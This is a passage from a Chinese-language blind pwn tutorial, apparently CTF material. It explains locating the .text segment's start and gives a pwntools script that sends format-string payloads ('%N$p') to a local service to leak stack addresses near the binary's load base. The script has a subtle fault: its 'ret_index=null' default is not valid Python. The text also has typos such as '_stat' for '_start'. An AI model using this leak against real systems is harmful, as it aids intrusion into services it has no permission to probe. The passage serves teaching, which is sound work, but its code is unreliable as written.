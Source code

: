 从 _start 函数开始就是 .text 段，可以在 ida 中打开一个正常的 binary 观察 text 段开头第一个函数就是 _stat ：（图为 32 位程序）

![](_images/Bilnd_Pwn/2020-06-27-ClxPYjJqw26gj8Ff.png)

先用 %p 泄露出栈上数据，找到两个相同地址，而且这个地址很靠近程序加载初地址（32位：0x8048000；64位：0x400000）。脚本如下：

```python
from pwn import *
import sys

p = remote('127.0.0.1',10001)

p.recv()
p.sendline('nameaaa')
p.recv()

def where_is_start(ret_index=null):
    return_addr=0
    for i in range(400):
        payload = '%%%d$p.TMP' % (i)
        p.sendline(payload)
        p.recvuntil('right:')
        val = p.recvuntil('.TMP')
        log.info(str(i*4)+' '+val.strip().ljust(10))
        if(i*4==ret_index):
            return_addr=int(val.strip('.TMP').ljust(10)[2:],16)
            return return_addr
        p.recvrepeat(0.2)

start_addr=where_is_start()
```
